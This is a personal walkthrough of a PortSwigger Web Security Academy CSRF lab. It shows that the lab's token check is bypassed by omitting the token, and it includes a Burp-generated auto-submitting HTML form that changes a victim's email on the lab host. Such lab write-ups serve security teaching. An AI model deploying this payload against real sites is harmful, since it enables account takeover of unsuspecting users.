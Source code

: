 ```yaml
---
title: 'Lab: CSRF where token validation depends on token being present'
tags: [Portswigger Web Security Academy, Web]

category: "Security/Practice/Portswigger Web Security Academy/CSRF/針對CSRF Token與同源政策的繞過手段"
---
```


# Lab: CSRF where token validation depends on token being present
###### tags: `Portswigger Web Security Academy` `Web`
* Description: This lab's email change functionality is vulnerable to CSRF.
* Goal:  To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.
You can log in to your own account using the following credentials: `wiener:peter`

## Recon
1. Login and update email to trace the package
It's very similar with previous lab $\to$ it contained `CSRF_token` as its carried data:
![](https://i.imgur.com/69FaW1R.png)

2. Try to use 1st method to bypass
![](https://i.imgur.com/Mm1YvZ5.png)
It seems can work properly.

## Exp - Delete `CSRF_token` directly to bypass
Actually, this is totally the same with the first lab's payload
Exploit Payload:
```javascript=
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <script>history.pushState('', '', '/')</script>

    <form action="https://0aa70059042bf55d80101c7a00930051.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="danger&#64;gmail&#46;com" />
    </form>
    <script>
          document.forms[0].submit();
    </script>
  </body>
</html>
```
:::spoiler Success Screenshot
![](https://i.imgur.com/EN6dFEO.png)
:::

## Reference
[Lab: CSRF where token validation depends on token being present:CSRF](https://blog.csdn.net/ZripenYe/article/details/120793710)
[从0到1完全掌握 CSRF](https://zhuanlan.zhihu.com/p/517735618)